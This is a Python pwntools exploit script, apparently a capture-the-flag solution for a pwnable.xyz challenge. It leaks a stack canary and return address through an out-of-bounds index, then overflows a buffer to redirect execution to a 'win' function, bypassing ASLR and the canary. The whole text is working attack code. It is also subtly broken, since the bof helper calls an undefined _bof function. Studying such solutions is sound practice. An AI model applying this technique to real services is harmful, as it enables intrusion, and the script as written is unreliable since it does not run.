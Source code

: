 ```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('./challenge')
io = connect('svc.pwnable.xyz', 30017)
sla = io.sendlineafter
sa = io.sendafter
sla(b"Message: ", b"A")

def leak_byte(idx: int):
    assert(-0x80 <= idx <= 0x7F) # signed char
    sla(b"> ", ((idx + 0x30)%256).to_bytes(1))
    assert(io.recvuntil(b"Error: ", timeout=0.5) != b"") # If you crashed / hanged here, ASLR failed you
    return int(io.recvuntil(b" ").decode()).to_bytes(1)

def leak_bytes(start_pos: int, n: int):
    return b"".join(leak_byte(i) for i in range(start_pos, start_pos+n))

def bo(data: bytes):
    sla(b"> ", b"1")
    sla(b"Message: ", data)

# https://stackoverflow.com/a/34445090
def findall(p: bytes, s: bytes):
    i = s.find(p)
    while i != -1:
        yield i
        i = s.find(p, i+1)

# Utility function to write payloads having zeroes in it using multiple writes and scanf string terminator.
def bof(data: bytes):
    zeroes = list(findall(b"\x00", data))[::-1]
    for i,z in enumerate(zeroes):
        if i == len(zeroes) - 1:
            payload = data[:z]
        else:
            j = zeroes[i+1]
            payload = flat({j+1: data[j+1:z]}, length=len(data[:z]))
        _bof(payload)

p = log.progress("Info leaking")
p.status("stack cookie (might hang / crash here)")
stack_cookie = leak_bytes(11, 7).rjust(8, b"\x00")
p.status("ret address (might hang / crash here)")
main_addr = leak_bytes(11+7+8,6).ljust(8, b"\x00")
p.success("leaked stack cookie and ret address")
exe.address = u64(main_addr) - exe.sym['main'] - 113 # 113 is the offset of the return address to main
win = p64(exe.sym['win']+1) # Use win+1 to skip the push and align the stack for the system()
log.info(f"cookie: 0x{u64(stack_cookie):08x}")
log.info(f"win: 0x{u64(win):08x}")
BAD_CHARS = [b"\t", b" ", b"\n", b"\v", b"\f", b"\r"] # 0x9, 0x20, 0xa, 0xb, 0xc, 0xd
assert(all(x not in stack_cookie for x in BAD_CHARS)) # unlucky ASLR
assert(all(x not in win for x in BAD_CHARS)) # unlucky ASLR
log.success("ASLR and canary bypassed!")
bof(flat({0x28: stack_cookie, 0x38: win[:6]}))
sla(b">", b"0")
print(io.recvall(timeout=0.5).decode())
```
